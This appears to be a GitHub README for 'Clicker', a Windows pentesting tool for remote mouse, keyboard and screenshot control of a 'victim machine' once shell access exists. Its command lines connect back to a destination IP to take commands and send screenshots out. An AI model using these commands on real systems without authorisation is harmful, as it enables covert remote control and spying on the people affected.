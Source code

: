 # Clicker
It's a pseudo remote GUI operation tool for Windows pentesting.  
You need shell access to use Clicker on the victim machine.

If you use ClickOperator, this command is needed
```
clicker.exe -b {dst IP address} {dst port for command} {dst port for data}
```

You can move mouse cursor and click (x and y are coordinates, left click=L, left double click=L2, right click=R)
```
clicker.exe -e {dst IP address} {dst port for data} "c:x,y,L"
```
Clicker get screen-shot and send it to specified destination.

Input text
```
clicker.exe -e 127.0.0.1 {port for data} "i:input this text !"
```
you can use KeyCode  
https://docs.microsoft.com/en-us/dotnet/api/system.windows.forms.sendkeys.send?view=net-5.0

